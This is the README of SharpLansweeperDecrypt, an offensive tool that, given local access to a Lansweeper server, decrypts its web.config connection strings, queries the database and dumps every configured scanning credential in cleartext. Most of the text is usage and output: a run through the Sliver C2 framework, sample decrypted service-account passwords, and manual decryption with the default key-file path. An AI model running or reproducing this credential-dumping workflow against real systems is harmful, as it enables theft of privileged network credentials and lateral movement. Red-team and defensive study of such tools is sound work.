 # SharpLansweeperDecrypt

<p align="center">
  <img src="/sharplansweeperdecrypt.png" width="400">



`SharpLansweeperDecrypt` is designed to automatically extract and decrypt all configured scanning credentials of a [Lansweeper](https://www.lansweeper.com) instance, provided there is local access to the server.

For manual decryption, the tool is capable of decrypting passwords when supplied with both the encrypted password and the encryption key (`C:\Program Files (x86)\Lansweeper\Key\Encryption.txt`).


1. Automatically identifies and decrypts the database connection strings contained within Lansweeper's `web.config` file.
2. Utilizes the decrypted connection strings to query the Lansweeper SQL database, retrieving all configured `Scanning Credentials`.
3. Locates the `Encryption.txt` file on the disk, which Lansweeper uses for credential encryption.
4. Applies the encryption key to decrypt and display the scanning credentials.

## Usage
```
PS C:\Users\Yeeb\Downloads> .\SharpLansweeperDecrypt.exe -h
╔═╗┬ ┬┌─┐┬─┐┌─┐╦  ┌─┐┌┐┌┌─┐┬ ┬┌─┐┌─┐┌─┐┌─┐┬─┐╔╦╗┌─┐┌─┐┬─┐┬ ┬┌─┐┌┬┐
╚═╗├─┤├─┤├┬┘├─┘║  ├─┤│││└─┐│││├┤ ├┤ ├─┘├┤ ├┬┘ ║║├┤ │  ├┬┘└┬┘├─┘ │
╚═╝┴ ┴┴ ┴┴└─┴  ╩═╝┴ ┴┘└┘└─┘└┴┘└─┘└─┘┴  └─┘┴└─═╩╝└─┘└─┘┴└─ ┴ ┴   ┴

Usage:
  No arguments: Runs the program as is, decrypting web.config and connecting to the SQL database.
  -p <path>: Optional path to the encryption key. If not provided, a default path is used.
  -e <encryptedPassword>: Decrypts the provided encrypted password without decrypting web.config or connecting to the SQL database.
```

### Automatic Decryption

With no arguments specified the tool will try to automatically dump and decrypt all configured `Scanning Credentials`

```
sliver (maldev) > inline-execute-assembly tool/SharpLansweeperDecrypt.exe -

[*] Successfully executed inline-execute-assembly (coff-loader)
[*] Got output:
[+] Success - Wrote 12298 bytes to memory

╔═╗┬ ┬┌─┐┬─┐┌─┐╦  ┌─┐┌┐┌┌─┐┬ ┬┌─┐┌─┐┌─┐┌─┐┬─┐╔╦╗┌─┐┌─┐┬─┐┬ ┬┌─┐┌┬┐
╚═╗├─┤├─┤├┬┘├─┘║  ├─┤│││└─┐│││├┤ ├┤ ├─┘├┤ ├┬┘ ║║├┤ │  ├┬┘└┬┘├─┘ │
╚═╝┴ ┴┴ ┴┴└─┴  ╩═╝┴ ┴┘└┘└─┘└┴┘└─┘└─┘┴  └─┘┴└─═╩╝└─┘└─┘┴└─ ┴ ┴   ┴

[+] Loading web.config file...
[+] Decrypted connectionStrings section:
Using connectionString: Data Source=(localdb)\.\LSInstance;Initial Catalog=lansweeperdb;Integrated Security=False;User ID=lansweeperuser;Password=InfiniteVoid*GetoSuguru;Connect Timeout=10;Application Name="LsService Core .Net SqlClient Data Provider"
[+] Opening connection to the database...
[+] Retrieving credentials from the database...
[+] Credential decrypted successully
┌───────────────────────────────────────┐
│ Credential: SNMP-Private              │
│ Username:   SNMP Community String     │
│ Password:   private                   │
└───────────────────────────────────────┘
[+] Credential decrypted successully
┌───────────────────────────────────────┐
│ Credential: Global SNMP               │
│ Username:                             │
│ Password:   public                    │
└───────────────────────────────────────┘
[+] Credential decrypted successully
┌───────────────────────────────────────┐
│ Credential: Inventory Windows         │
│ Username:   SWEEP\svc_inventory_win   │
│ Password:   CursedEnergy$Itadori$     │
└───────────────────────────────────────┘
[+] Credential decrypted successully
┌───────────────────────────────────────┐
│ Credential: Inventory Linux           │
│ Username:   svc_inventory_lnx         │
│ Password:   CurseExorcist#Gojo!       │
└───────────────────────────────────────┘
[+] Database connection closed.

[+] inlineExecute-Assembly Finished
```
### Manual Decryption
Sould the `web.config` file be undecryptable or access to the SQL service be unavailable, `SharpLansweeperDecrypt` offers a manual decryption option using the `-e` flag. In cases where the encryption key's path is not explicitly provided with the `-p` flag, the tool defaults to using `C:\Program Files (x86)\Lansweeper\Key\Encryption.txt`.

```PS C:\Users\Yeeb\Downloads> .\SharpLansweeperDecrypt.exe -e 'fuVE63qSVMPbuSnYUdUE+MuRpn8t/PXyLnMUb4gfDew='
╔═╗┬ ┬┌─┐┬─┐┌─┐╦  ┌─┐┌┐┌┌─┐┬ ┬┌─┐┌─┐┌─┐┌─┐┬─┐╔╦╗┌─┐┌─┐┬─┐┬ ┬┌─┐┌┬┐
╚═╗├─┤├─┤├┬┘├─┘║  ├─┤│││└─┐│││├┤ ├┤ ├─┘├┤ ├┬┘ ║║├┤ │  ├┬┘└┬┘├─┘ │
╚═╝┴ ┴┴ ┴┴└─┴  ╩═╝┴ ┴┘└┘└─┘└┴┘└─┘└─┘┴  └─┘┴└─═╩╝└─┘└─┘┴└─ ┴ ┴   ┴

Decrypted Password: ForbiddenTechnique#DomainExpansion
```

### Powershell
In addition to the C# version, this repository also includes a PowerShell script, `LansweeperDecrypt.ps1`, which automates the process of dumping and decrypting Lansweeper credentials. 

## Compilation
Ensure your C# development environment (e.g., .NET SDK, Visual Studio) is set up correctly. The project requires the `System.Configuration.ConfigurationManager`.

```sh
dotnet add package System.Configuration.ConfigurationManager
```

Alternatively, if you're using Visual Studio, you can manage NuGet packages for your project and add `System.Configuration.ConfigurationManager` from there.

## Acknowledgments

Special thanks to the [LansweeperPasswordRecovery](https://github.com/GoSecure/LansweeperPasswordRecovery) repository for providing guidance on how to decrypt Lansweeper Scanning Credentials.

---

*The script is for informational and educational purposes only. The author and contributors of this script are not responsible for any misuse or damage caused by this tool.* <!-- meme -->
